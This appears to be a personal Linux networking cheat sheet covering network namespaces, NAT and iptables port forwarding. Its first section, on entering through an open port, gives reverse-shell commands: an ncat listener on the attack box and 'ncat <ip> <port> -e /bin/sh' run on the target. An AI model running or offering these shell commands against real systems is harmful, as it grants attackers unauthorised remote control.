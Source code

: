When you can gain entry to one open port but can't use that port as its already being used.
```bash
# On the attack box
$ ncat -lvp 3334
# On the target machine, start as client as send the shell program over
$ ncat <ip_address> <port> -e /bin/sh
```
### Namespaces

```bash
# list all namespaces
$ ip netns list
# add a new namespace, creates a network isolation
$ ip netns add red
# remove a namespace
$ ip netns delete red
# ping from a namespace
$ ip netns exec red ping xxx.xxx.xxx.xxx
# show route
$ ip netns exec red route
# arp
$ ip netns exec red arp
$ ip netns exec blue arp
```

### NAT
- SNAT
- DNAT
- PAT
- PORT FORWARD

1. To enable NAT you need to have 2 network interfaces - private and public
2. Using PAT assign a public ip address to a packet coming from a private network for outgoing request
3. For response, allow the incoming traffic to be forwarded to the correct host in private network

```bash
# enable forwarding in a router
$ echo 1 > /proc/sys/net/ipv4/ip_forward
# allow on start up
$ echo "net.ipv4.ip_forward=1" >> /etc/sysctl.conf
$ sysctl -p

# setup NAT, eth0 --> external n/w, eth1 --> internal n/w
$ iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
$ iptables -A FORWARD -i eth0 -o eth1 -m state --state RELATED,ESTABLISHED -j ACCEPT
$ iptables -A FORWARD -i eth1 -o eth0 -j ACCEPT
$ iptables save
```

```bash
# iptables -A PREROUTING -t nat -i eth0 -p tcp --dport 80 -j DNAT --to 192.168.1.2:8080
# iptables -A FORWARD -p tcp -d 192.168.1.2 --dport 8080 -j ACCEPT
```
